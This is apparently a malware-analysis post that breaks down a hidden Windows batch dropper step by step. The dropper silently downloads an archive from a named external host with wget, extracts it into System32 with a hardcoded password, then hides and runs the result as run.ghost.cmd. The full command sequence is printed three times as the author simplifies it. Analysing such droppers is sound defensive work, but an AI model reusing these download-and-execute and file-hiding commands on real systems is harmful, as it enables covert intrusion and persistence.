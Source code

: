 The string of code I found was the following:

```
%COMSPEC% /c del /q /f wget\update >nul 2>nul
%COMSPEC% /c del /a /q /f %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd >nul 2>nul
%COMSPEC% /c wget\wget.exe -q --backups=1 http://xcazy.the-ninja.jp/update/2021/x64/toolbox.update -t 0 -O wget\update >nul 2>nul
%COMSPEC% /c timeout /t 1 >nul 2>nul
%COMSPEC% /c wget\7z1900-extra\x64\7za x wget\update -aoa -pghostX2021 -o%Windir%\System32\migwiz\dlmanifests >nul 2>nul
%COMSPEC% /c del /a /q /f %Windir%\System32\wbem\en-US\update.cmd >nul 2>nul
%COMSPEC% /c timeout /t 1 >nul 2>nul
%COMSPEC% /c rename %Windir%\System32\migwiz\dlmanifests\toolbox.cmd run.ghost.cmd >nul 2>nul
%COMSPEC% /c attrib +S +H +R %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd >nul 2>nul
%COMSPEC% /c %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd >nul 2>nul
%COMSPEC% /c del /q /f wget\update >nul 2>nul
```

Okay... thats a lot, let's take a little bit to break that down... `%COMSPEC%` is a variable in the command prompt built into Windows, which just points to where CMD is and `/c` just tells it to execute a command before closing. So I am just going to ignore that. And you may have noticed at the end of all commands the text `>nul 2>nul`, which tells the command prompt to not tell you what is going on, making programs that are otherwise "loud" silent, not putting out an output. So now that we know that, the commands look more like this:

```
del /q /f wget\update 
del /a /q /f %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
wget\wget.exe -q --backups=1 http://xcazy.the-ninja.jp/update/2021/x64/toolbox.update -t 0 -O wget\update 
timeout /t 1 
wget\7z1900-extra\x64\7za x wget\update -aoa -pghostX2021 -o%Windir%\System32\migwiz\dlmanifests 
del /a /q /f %Windir%\System32\wbem\en-US\update.cmd 
timeout /t 1 
rename %Windir%\System32\migwiz\dlmanifests\toolbox.cmd run.ghost.cmd 
attrib +S +H +R %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
%Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
del /q /f wget\update 
```

Another thing we should filter out is the commands that are called `timeout`, which simply just tell the command prompt to wait a specific amount of time before running the rest of the script, removing those we get:

```
del /q /f wget\update 
del /a /q /f %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
wget\wget.exe -q --backups=1 http://xcazy.the-ninja.jp/update/2021/x64/toolbox.update -t 0 -O wget\update 
wget\7z1900-extra\x64\7za x wget\update -aoa -pghostX2021 -o%Windir%\System32\migwiz\dlmanifests 
del /a /q /f %Windir%\System32\wbem\en-US\update.cmd 
rename %Windir%\System32\migwiz\dlmanifests\toolbox.cmd run.ghost.cmd 
attrib +S +H +R %Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
%Windir%\System32\migwiz\dlmanifests\run.ghost.cmd 
del /q /f wget\update 
```
